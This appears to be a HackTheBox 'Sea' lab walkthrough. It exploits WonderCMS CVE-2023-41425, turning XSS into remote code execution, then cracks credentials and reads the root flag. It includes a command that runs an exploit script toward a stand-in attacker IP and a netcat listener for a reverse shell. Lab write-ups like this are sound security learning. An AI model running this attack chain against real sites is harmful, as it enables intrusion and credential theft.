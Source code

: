 # HackTheBox - Sea Challenge Walkthrough

## 1. Reconnaissance & Initial Enumeration

### Tools Used
- nmap: Port discovery
- WhatWeb: Web technology identification
- FFUF: Directory enumeration

### Initial Findings
- Open Ports:
  - SSH
  - HTTP
- Web Technology: PHP-based site
- Session Management: Cookie-based
- CMS: WonderCMS
- Form submission (http://sea.htb/contact.php)

## 2. Vulnerability Discovery

### CVE-2023-41425 - WonderCMS XSS to RCE Vulnerability
- Identified vulnerability in WonderCMS
- Critical flaw allows Remote Code Execution via XSS
- Exploits `installModule` functionality without proper validation

## 3. Exploit Preparation

### Required Components
- Attacker Machine Setup:
  - Kali Linux / Attacking Platform
  - Python 3
  - netcat
  - Simple HTTP server

### Exploit Components
1. `exploit.py`: Main exploitation script (you need to do some modification to the original script for htb addability)
2. `xss.js`: Malicious JavaScript payload
3. `rev.php`: Reverse shell script
4. `moduleName.zip`: Compressed malicious module

## 4. Exploitation Steps

### Step 1: Payload Generation
```bash
python3 exploit.py http://sea.htb/loginURL <ATTACKER_IP> <LISTENER_PORT>
```

### Step 2: Prepare Listener
```bash
nc -lvp <LISTENER_PORT>
```

### Step 3: Inject XSS Payload
- Locate vulnerable form field
- Insert generated XSS payload
- Submit form

### Step 4: Trigger Exploit
- Admin visits page
- JavaScript automatically executes
- Downloads malicious ZIP
- Installs reverse shell module
- Establishes connection to attacker's netcat

## 5. Initial Access - www-data Shell

### Reconnaissance
- Discovered `database.js` with credentials
- Found hashed credentials

## 6. Privilege Escalation - User Flag

### User: amay
- Cracked password from `database.js`
- Obtained SSH access
- Retrieved user flag

## 7. Root Flag Acquisition

### Method
- Discovered web server on port 8080
- Created SSH tunnel
- Explored System Monitor page
- Used Burp Suite to modify log file request
- Successfully retrieved `/root/root.txt`

## 8. Key Vulnerabilities Exploited
- WonderCMS XSS (CVE-2023-41425)
- Weak credential storage
- Improper access controls on log viewing

## 9. Tools & Technologies
- Reconnaissance: nmap, WhatWeb, FFUF
- Exploitation: Python, netcat, Burp Suite
- Post-Exploitation: SSH, HTTP tunneling

## Lessons Learned
- Always keep CMS and web applications updated
- Implement robust input sanitization
- Use strong authentication mechanisms
- Regularly audit system configurations

---

### Detailed Technical Notes
- XSS Payload Mechanism: Client-side script execution
- Reverse Shell: Bash TCP connection
- Privilege Escalation: Credential reuse and log file manipulation
